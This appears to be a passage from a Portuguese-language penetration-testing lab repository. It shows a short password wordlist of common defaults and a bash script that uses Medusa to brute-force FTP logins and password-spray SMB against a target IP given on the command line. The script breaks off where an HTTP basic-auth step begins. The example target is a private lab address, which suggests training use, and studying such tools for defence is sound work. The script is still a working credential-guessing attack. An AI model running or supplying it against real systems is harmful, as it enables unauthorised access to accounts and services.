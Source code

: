 ### `wordlists/passwords-rockyou-small.txt`

```
password
123456
admin
12345
password1
qwerty
msfadmin
toor
letmein
welcome
changeme
1234
12345678
passw0rd
```

### `scripts/run-medusa-all.sh`

```
#!/bin/bash
# run-medusa-all.sh
# Uso: ./run-medusa-all.sh <TARGET_IP>
# Exemplo: ./run-medusa-all.sh 192.168.56.101

set -euo pipefail
IFS=$'
	'

if [ "$#" -ne 1 ]; then
  echo "Uso: $0 <TARGET_IP>"
  exit 1
fi

TARGET="$1"
OUTDIR="results/$(date +'%Y%m%d-%H%M%S')"
mkdir -p "$OUTDIR"

echo "Alvo: $TARGET"
echo "Saída: $OUTDIR"

WORDLISTS_DIR="wordlists"
USERS_FILE="$WORDLISTS_DIR/users.txt"
PASS_FILE="$WORDLISTS_DIR/passwords-rockyou-small.txt"

if [ ! -f "$USERS_FILE" ] || [ ! -f "$PASS_FILE" ]; then
  echo "Arquivo de wordlists não encontrado. Verifique $USERS_FILE e $PASS_FILE"
  exit 2
fi

# FTP
echo "[+] Iniciando brute-force FTP..."
medusa -M ftp -h "$TARGET" -U "$USERS_FILE" -P "$PASS_FILE" -f > "$OUTDIR/medusa-ftp.txt" 2>&1 || true

# SMB (spray)
echo "[+] Iniciando password spraying SMB..."
medusa -M smbnt -h "$TARGET" -U "$USERS_FILE" -P "$PASS_FILE" -t 8 -f > "$OUTDIR/medusa-smb.txt" 2>&1 || true

# HTTP basic auth (se aplicável)
echo "[+] Testando HTTP basic auth (usuário: admin)..."
```